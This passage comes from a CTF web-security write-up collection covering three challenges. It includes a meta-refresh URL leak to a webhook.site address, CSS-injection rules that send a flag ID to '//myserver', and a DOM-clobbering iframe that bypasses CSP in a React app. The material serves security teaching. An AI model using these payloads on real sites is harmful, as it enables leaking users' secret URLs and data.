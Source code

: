 Complete writeup: https://blog.huli.tw/2022/03/27/en/linectf-2022-writeup/#haribote-secure-note7-solves

### m0leCon CTF 2022 - ptMD

Leak URL using `meta` combination:

``` html
<meta name="referrer" content="unsafe-url" />
<meta http-equiv="refresh" content="3;url=https://webhook.site/d485f13a-fd8b-4cfd-ad13-63d9b0f1f5ef" />
```

In a strict CSP state, meta can be used as a breakthrough technique. These meta tags, like the ones above, work even if they are not placed inside the head tag, and even after they are removed.

Full writeup: https://blog.huli.tw/2022/05/21/en/m0lecon-ctf-2022-writeup/

### corCTF 2022 - modernblog

This is a React app that uses `dangerouslySetInnerHTML` to render your content, which means you get an HTML injection.

But CSP doesn't allow you to execute scripts: `script-src 'self'; object-src 'none'; base-uri 'none';`

What you need to steal is the URL with the flag ID, which appears on the `/home` page. If we can do CSS injection on that page, we can steal it like this:

``` css
a[href^="/post/0"] {
  background: url(//myserver?c=0);
}

a[href^="/post/1"] {
  background: url(//myserver?c=1);
}

// ...
```

And since we are currently on the `/posts/:id` page, we cannot get the content of the `/home` page, so we cannot do this.

The key point of this question is a very interesting usage of DOM clobbering. Nowadays, React apps basically use [react-router](https://reactrouter.com/en/main) to do routing. This lib will use `document.defaultView.history` to see what the URL is and decide which page to render.

And `document.defaultView` can be affected by DOM clobbering, like this:

``` html
<iframe name=defaultView src=/home></iframe>
```

In this way, `document.defaultView.history` becomes `/home`, so we can render another React app inside the React app using iframe srcdoc, and use the CSS injection mentioned earlier to get the flag ID:
